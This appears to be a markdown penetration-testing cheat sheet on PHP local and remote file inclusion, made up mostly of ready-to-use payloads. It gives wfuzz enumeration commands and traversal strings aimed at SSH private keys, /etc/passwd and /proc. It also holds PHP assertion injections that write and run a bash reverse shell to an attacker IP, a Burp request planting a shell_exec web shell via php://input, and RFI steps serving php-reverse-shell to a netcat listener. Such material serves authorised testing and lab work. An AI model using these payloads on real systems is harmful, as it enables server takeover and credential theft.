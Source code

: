 ### :open_file_folder: Check file

lists

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/custom_wordlists/file_inclusion_linux.txt


Enumerate files

```
wfuzz -c -w file_inclusion_linux.txt --hw 0 http://<target ip>/download.php?downloadurl=FUZZ
```

Attempt to read the SSH key

```
../../../../../home/<username>/.ssh/id_rsa
```

Attempt to list the directory contents

```
../../../../../../../../../../../../../../../
```

The Apache configuration file can indicate the directory location of a webpage

```
/opt/apache2/conf/httpd.conf
```

### :open_file_folder: [Proc File System](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

```
wfuzz -u http://<target ip>/download.php?downloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1

curl http://<target ip>/download.php?downloadurl=/proc/824/cmdline --output service.txt
```

PHP assertions

```shell
page=' and die(show_source('/etc/passwd')) or '
page=' and die(system('cat /etc/passwd')) or '
# url encode , page=<encode command string>, escape single quotes 
# page=' and die(system('echo \'/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1\' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh')) or '
page=' and die(system('echo '%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F<attacker ip>%2F<attacker port> 0>%261' > %2Ftmp%2Frevshell.sh %26%26 chmod 777 %2Ftmp%2Frevshell.sh %26%26 %2Fbin%2Fbash %2Ftmp%2Frevshell.sh')) or '%0A
```

Burp Suite

```
GET /site/index.php?page=php://input&cmd=id HTTP/1.1
Host: 192.168.0.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=2vqr9cj4hp7d2uva04de1352ro
Upgrade-Insecure-Requests: 1
Content-Length: 41

<?php echo shell_exec($_GET['cmd']); ?>
```

:star: PHP filter chain

https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT

https://ctftime.org/writeup/36071

RFI

- method1 

    attacker

    ```shell
    # modify attcker ip and port, e.g., 192.168.10.100 4444
    locate php-reverse-shell
    # start http server
    sudo python3 -m http.server 80
    # listen on port 4444
    sudo nc -nlvp 4444
    ```

    target

    ```shell
    # vulnerability page
    /test.php?url=http://<attcker ip>:<attacker port>/php-reverse-shell.php
    ```

